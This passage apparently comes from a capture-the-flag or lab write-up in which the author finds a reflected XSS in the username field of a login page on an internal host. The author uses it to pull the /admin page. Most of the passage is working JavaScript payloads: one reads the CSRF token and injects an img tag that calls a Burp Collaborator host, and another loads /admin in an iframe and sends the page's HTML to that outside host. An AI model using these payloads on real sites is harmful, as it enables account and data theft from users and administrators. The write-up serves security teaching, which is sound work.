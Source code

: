 **Response ->**

```
/?ip=192.168.0.117:8080&code=...
...
<h1>Login</h1>
<section>
    <form class=login-form method=POST action=/login>
        <input required type="hidden" name="csrf" value="qOUuxYtjCrGW1lo0n5QGjZM6rETcAmPd">
        <label>Username</label>
        <input required type=username name="username">
        <label>Password</label>
        <input required type=password name="password">
        <button class=button type=submit> Log in </button>
```

It seems the user is not logged in. We can bypass it with XSS. But first, we need to find injection point to XSS. We found username parameter as injectable.

```
<script>
  function xss(url, text, vector) {
    location = url + '/login?time='+Date.now()+'&username='+encodeURIComponent(vector)+'&password=test&csrf='+text.match(/csrf" value="([^"]+)"/)[1];
  }
  
  function fetchUrl(url, collaboratorURL){
    fetch(url).then(r=>r.text().then(text=>
    {
      xss(url, text, '"><img src='+collaboratorURL+'?foundXSS=1>');
    }
    ))
  }
  
  fetchUrl("http://192.168.0.117:8080", "http://ng7tyefwag7aqw5tjno7oqp1lsrif7.burpcollaborator.net");
</script>
```

**Response ->**

`GET /?foundXSS=1 HTTP/1.1`

With this XSS, we tried to access admin page.

```
<script>
  function xss(url, text, vector) {
    location = url + '/login?time='+Date.now()+'&username='+encodeURIComponent(vector)+'&password=test&csrf='+text.match(/csrf" value="([^"]+)"/)[1];
  }
  function fetchUrl(url, collaboratorURL){
    fetch(url).then(r=>r.text().then(text=>
    {
      xss(url, text, '"><iframe src=/admin onload="new Image().src=\''+collaboratorURL+'?code=\'+encodeURIComponent(this.contentWindow.document.body.innerHTML)">');
    }
    ))
  }
  
  fetchUrl("http://192.168.0.117:8080", "http://ng7tyefwag7aqw5tjno7oqp1lsrif7.burpcollaborator.net");
</script>
```
